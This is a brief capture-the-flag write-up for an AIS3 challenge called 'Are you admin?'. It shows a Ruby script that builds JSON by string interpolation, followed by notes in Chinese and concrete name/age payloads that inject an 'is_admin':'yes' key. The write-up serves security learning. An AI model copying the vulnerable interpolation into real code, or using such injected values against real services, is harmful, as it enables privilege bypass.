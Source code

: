 ### Are you admin?
```
#!/usr/bin/ruby
require 'json'

STDOUT.sync = true
puts "Your name:"
name = STDIN.gets.chomp
puts "Your age:"
age = STDIN.gets.chomp
if age.match(/[[:alpha:]]/)
    puts "No!No!No!"
    exit
end

string = "{\"name\":\"#{name}\",\"is_admin\":\"no\", \"age\":\"#{age}\"}"
res = JSON.parse(string)
if res['is_admin'] == "yes"
    puts "AIS3{xxxxxxxxxxxx}"  # flag is here
else
    puts "Hello, " + res['name']
    puts "You are not admin :("
end
```
- 第一點要先用json的特性去把原本server上的is_admin繞過 padding成自己的
- 第二點ruby的`age.match(/[[:alpha:]]/)`並沒有過濾`{`,`"`等特殊字元
- payload:
    - name: `asd","is_admin":"yes","":{"":"`
    - age: `"},"":"1`
    - json結果: `{"name":"asd","is_admin":"yes","":{"":"", "is_admin":"no","age":""},"":"1"}`